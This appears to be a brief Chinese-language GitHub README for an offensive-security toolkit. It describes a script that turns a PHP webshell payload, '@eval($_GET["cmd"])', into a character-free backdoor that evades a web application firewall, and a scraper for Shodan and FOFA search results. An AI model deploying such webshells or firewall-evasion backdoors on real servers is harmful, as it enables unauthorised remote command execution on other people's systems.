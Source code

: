 # training
bypass_webshell里面是绕过sofadog的webshell
用法： python.exe fuckdogwebshell.py '@eval($_GET["cmd"])'，可以生产无字符型后门。
search_spider里面是shodan和fofa的爬虫
用法： python [脚本] [关键字] [页数]

